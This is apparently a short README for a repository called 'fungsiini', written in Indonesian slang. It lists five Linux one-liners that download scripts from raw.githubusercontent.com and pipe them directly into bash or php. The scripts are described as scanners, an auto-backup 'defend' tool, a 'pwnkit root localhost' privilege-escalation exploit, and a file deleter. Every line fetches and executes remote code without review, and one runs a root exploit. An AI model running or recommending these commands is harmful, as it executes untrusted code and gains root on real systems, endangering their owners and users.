 # fungsiini Command line linux
# Anti Tikung" Kon7ol defendfg

1, scaner cepat 
wget https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/sca.sh -q -O - |bash

2, backup auto defend

curl -s githubusercontent.com/heck221/fungsiini/refs/heads/main/cod.php | php - backup y

3, scanner powerfull 

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/outsca.php | php

4, pwnkit root localhost

wget https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/pwk.sh -q -O - |bash

5, Mendelet berdasarkan nama file kon7l

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/delet.php | php namafile.php
